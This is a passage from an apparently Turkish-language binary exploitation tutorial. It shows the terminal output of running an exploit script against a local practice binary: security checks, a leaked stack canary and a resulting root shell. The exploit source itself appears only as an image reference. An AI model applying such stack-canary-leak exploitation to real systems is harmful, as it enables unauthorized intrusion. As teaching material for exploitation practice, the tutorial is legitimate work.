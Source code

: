 Artık herşey hazır, exploitimizi test edebiliriz:
```
root@o101:~/0x3# python3 solve.py
[*] '/root/0x3/0x3'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './0x3': pid 2401
[*] Leaked cookie: 0x2b0be40b82f08300
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
```

---
[Önceki](0x2.md) | [Sonraki](0x4.md)
